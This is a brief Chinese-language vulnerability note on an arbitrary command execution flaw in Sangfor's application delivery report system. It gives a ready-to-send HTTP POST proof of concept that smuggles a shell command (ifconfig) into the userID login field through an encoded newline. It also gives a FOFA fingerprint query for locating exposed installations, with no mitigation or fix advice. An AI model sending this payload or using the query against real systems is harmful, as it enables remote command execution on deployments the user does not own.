

#### 影响范围

深信服应用交付报表系统

#### 漏洞概述

深信服应用交付报表系统存在任意命令执行漏洞

#### 漏洞复现

应用页面如下：


漏洞POC(仅部分特定版本)：

```
POST /rep/login HTTP/1.1
Host: 
Content-Length: 128
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115","Chromium";v="115" 

closeclsMode=cls_mode_login&index=index&log_type=report&page=login&rnd=0.7550103466497915&userID=admin%0Aifconfig%0A&userPsw=tmbhuisq
```



#### 资产测绘

FOFA：

```
"/report/templet/static/js/polyfill.js"
```


